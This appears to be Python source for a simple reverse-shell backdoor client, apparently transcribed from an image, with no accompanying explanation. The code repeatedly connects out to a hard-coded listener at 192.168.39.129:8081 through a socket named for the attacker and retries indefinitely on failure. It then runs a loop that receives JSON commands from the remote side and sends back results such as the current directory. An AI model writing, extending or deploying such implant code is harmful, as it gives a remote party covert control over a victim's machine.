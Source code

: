 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    print("Inside the shell functions")
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'say':
            print("Hello World")
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.39.129", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
